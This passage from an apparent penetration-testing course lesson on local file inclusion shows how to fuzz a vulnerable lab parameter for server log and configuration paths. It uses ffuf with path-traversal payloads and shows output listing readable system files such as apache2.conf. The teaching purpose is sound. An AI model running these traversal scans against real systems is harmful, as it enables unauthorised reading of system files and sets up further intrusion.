 #### Server Logs/Configurations

As we have seen in the previous section, we need to be able to identify the correct logs directory to be able to perform the log poisoning attacks we discussed. Furthermore, as we just discussed, we may also need to read the server configurations to be able to identify the server webroot path and other important information (like the logs path!).

To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:

  Automated Scanning

```shell-session
alakin2504@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:

  Automated Scanning
